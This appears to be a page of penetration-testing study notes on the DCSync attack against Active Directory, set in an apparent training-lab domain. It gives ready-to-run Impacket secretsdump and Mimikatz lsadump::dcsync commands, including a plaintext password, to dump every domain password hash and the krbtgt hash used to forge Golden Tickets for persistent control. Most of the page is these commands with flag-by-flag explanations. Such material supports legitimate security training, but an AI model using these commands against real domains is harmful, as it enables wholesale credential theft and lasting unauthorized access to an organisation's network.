 -----

### Executing the DCSync Attack

Once you have compromised a user with DCSync privileges, you can use the following tools to dump all domain credentials.

#### `secretsdump.py -just-dc INLANEFREIGHT/adunn@172.16.5.5`

  * **What it does:** A flagship script from the Impacket suite that performs the DCSync attack from a Linux machine. It uses the provided credentials (`adunn`) to connect to the Domain Controller and remotely dump the entire NTDS.dit database, containing the password hashes for all users in the domain.
  * **When to use it:** This is the primary tool for executing the DCSync attack from your attacker machine once you have compromised a user with the necessary privileges.
  * **Example Command:**
    ```shell
    secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn:'Pwn3d_by_ACLs!'@172.16.5.5
    ```
  * **Options:**
      * `-outputfile inlanefreight_hashes`: Saves the dumped hashes into a set of files for later use (e.g., pass-the-hash attacks).
      * `-just-dc`: This crucial flag tells `secretsdump` to perform the attack via the DCSync replication method.
      * `INLANEFREIGHT/adunn:'...'@172.16.5.5`: The format for providing the domain, username, password, and the target Domain Controller's IP.

#### `.\mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:krbtgt"`

  * **What it does:** Uses the legendary Mimikatz tool to perform the DCSync attack from a Windows host. This specific command targets the most valuable account: `krbtgt`. The hash of the `krbtgt` account is required to forge Golden Tickets, giving you persistent, god-like access to the domain.
  * **When to use it:** When you have a shell on a Windows machine as a user with DCSync rights. This is the definitive tool for this attack on Windows.
  * **Example Command & Interaction:**
    ```shell
    # You may need to enable debug privileges first
    mimikatz # privilege::debug
    # Execute the DCSync attack for the krbtgt account
    mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:krbtgt
    ```
  * **Options:**
      * `lsadump::dcsync`: The Mimikatz module for this attack.
      * `/domain:INLANEFREIGHT.LOCAL`: The target domain.
      * `/user:krbtgt`: The specific user to get the password hash for. You can change this to any user (e.g., `administrator`) or omit it to try and dump all users.
